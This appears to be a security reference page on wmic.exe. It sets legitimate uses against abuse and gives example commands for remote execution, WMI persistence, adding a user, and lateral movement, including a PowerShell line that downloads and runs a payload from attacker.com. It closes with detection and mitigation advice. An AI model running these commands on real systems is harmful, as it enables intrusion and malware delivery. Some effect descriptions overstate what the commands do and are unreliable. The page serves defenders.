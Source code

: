 # wmic.exe
## What is it?
*```wmic.exe``` (Windows Management Instrumentation Command-line) is a built-in Windows command-line tool that allows administrators and users to interact with Windows Management Instrumentation (WMI) for managing and querying system information and configuration.*
*WMIC can be used to retrieve detailed system data, configure system settings, and manage hardware, software, and network components, making it a powerful tool for system administration.*

## Legitimate Usage
- **System Configuration Management** → Query and configure various system settings like user accounts, system hardware, and installed software.
- **Automation of System Tasks** → Use WMIC in scripts to automate administrative tasks such as service management and disk cleanup.
- **Hardware Information Retrieval** → Query detailed information about hardware components like CPUs, memory, and hard drives.
- **Software Installation and Management** → Use WMIC to install or uninstall software packages from the command line.
- **User and Group Management** → Create, modify, or delete user accounts and groups via WMIC.

## How to abuse it
- **Remote Command Execution** → Attackers can use ```wmic.exe``` to execute commands remotely on other systems, often bypassing network defenses and firewalls.
- **Persistence via WMI Event Subscription** → Attackers can use WMI to set up persistent remote access, where commands or malicious payloads are triggered by system events.
- **Privilege Escalation** → WMIC can be used to invoke elevated commands, run processes with SYSTEM privileges, or alter security settings.
- **Bypass Security Tools** → Since ```wmic.exe``` is a legitimate Windows utility, attackers can use it to bypass detection by security software, as it may not be flagged.
- **Lateral Movement** → Attackers can use WMIC to propagate malicious code across a network by executing commands on other machines.

## Example attacks
### 1. Remote Code Execution (RCE) via WMIC
*Attackers can use ```wmic.exe``` to execute commands on remote machines without needing direct access to them.*
**Run a Command on a Remote Machine**

```
wmic /node:192.168.1.100 process call create "cmd.exe /c calc.exe"

wmic os get /FORMAT:"file.xsl"

wmic process call create "powershell -enc <base64_payload>"

wmic /node:"targetPC" process call create "cmd.exe /c calc.exe"
```

*Calculator is spawned by svchost.exe:*

![image](https://github.com/user-attachments/assets/9be8f30e-5e05-42e4-a813-a53fb1fc436a)

**Effect:**
- Executes the Calculator application (`calc.exe`) remotely on the target machine, showing that the attacker can run arbitrary commands remotely.

### 2. Persistence via WMI Event Subscription
*Attackers can create a WMI event subscription that triggers a malicious payload whenever a specific system event occurs.*
**Create WMI Event Subscription for Persistence**

```
wmic /namespace:\root\subscription path __EventFilter create Name="MyEventFilter", EventNamespace="root\cimv2", Query="SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process'"
```

**Effect:**
- The attacker sets up an event that listens for a process creation and can trigger a malicious payload whenever this event occurs, providing persistence.

### 3. Privilege Escalation via WMIC
*Attackers can invoke commands with elevated privileges using ```wmic.exe``` to escalate their privileges on a compromised system.*
**Run a Command as SYSTEM**

```
wmic process call create "cmd.exe /c net user attacker Password /add"
```

**Effect:**
- Creates a new user (`attacker`) with elevated privileges by running the command as SYSTEM, enabling the attacker to maintain access to the system.

### 4. Lateral Movement via WMIC
*An attacker can use WMIC to execute commands on other machines in the network and spread malicious tools or code.*
**Execute a Command on a Remote Machine**

```
wmic /node:192.168.1.50 process call create "cmd.exe /c powershell -exec bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
```

**Effect:**
- This command executes a PowerShell script on a remote machine to download and run a malicious payload, effectively allowing lateral movement across a network.

### 5. Bypassing Security Detection
*Since WMIC is a legitimate utility, it is often overlooked by traditional security tools, making it useful for evading detection.*
**Running WMIC to Bypass Detection**

```
wmic /node:localhost process call create "cmd.exe /c start http://attacker.com/malware.exe"
```

**Effect:**
- Executes a malicious command that could potentially download and execute malware, leveraging WMIC's legitimate status to bypass security tools.

# Detection & Mitigation
## Detection Methods
**Monitor WMIC Activity**
- **Event ID 4688 (Process Creation)** → Detect the use of ```wmic.exe``` to execute suspicious commands.
- **Event ID 4703 (Privilege Use)** → Track attempts to use elevated privileges via WMIC.
- **Monitor Remote Execution** → Track unusual remote command executions (e.g., ```wmic /node:```).

**Monitor for WMI Event Subscriptions**
- **Event ID 5861 (WMI Event Filter Created)** → Detect the creation of WMI event filters that may indicate persistence attempts.

**Monitor Network Connections**
- **Event ID 5156 (Filtering Platform Connection)** → Detect WMIC traffic that could indicate lateral movement or remote execution attempts.

## Mitigation Strategies
- **Restrict WMIC Access** → Limit who can use WMIC by using group policies or restricting access to specific users or administrators.
- **Use Application Whitelisting (AppLocker)** → Prevent unauthorized applications from running, including malicious uses of WMIC.
- **Audit Process Creation** → Enable auditing for process creation and monitor Event ID 4688 to identify the misuse of WMIC.
- **Block Remote Access to WMIC** → Use firewall rules or network segmentation to block remote WMIC access.
- **Use Endpoint Detection and Response (EDR)** → Deploy EDR solutions to monitor for suspicious activity associated with WMIC commands.
